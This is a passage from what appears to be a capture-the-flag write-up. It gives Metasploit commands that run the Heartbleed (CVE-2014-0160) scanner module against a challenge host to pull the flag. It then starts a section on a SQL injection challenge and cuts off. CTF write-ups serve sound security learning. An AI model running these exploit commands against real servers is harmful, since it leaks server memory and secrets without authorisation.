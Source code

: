 
Opening the website and looking at the headers it says `CVE-2014-0160` which gave us hint that the server is vulnerable to heartbleed attack.

Just do the heartbleed attack to get the flag.

On metasploit
```sh
use auxiliary/scanner/ssl/openssl_heartbleed
set rport 443
set rhosts ec2-3-11-22-12.threat.studio
set verbose True
check
exploit
```

![](/images/Screenshot_32.png){:class="img-responsive"}

<br>

----------------------------------------------------------------------------------------------


<br>

# Who's Sequel?
```
https://pr28v5drz5.execute-api.eu-west-2.amazonaws.com/default/n9h9me
```

As the title itself gave us the hint that it is vulnerable to SQLi injection.

On opening the website it looked something like
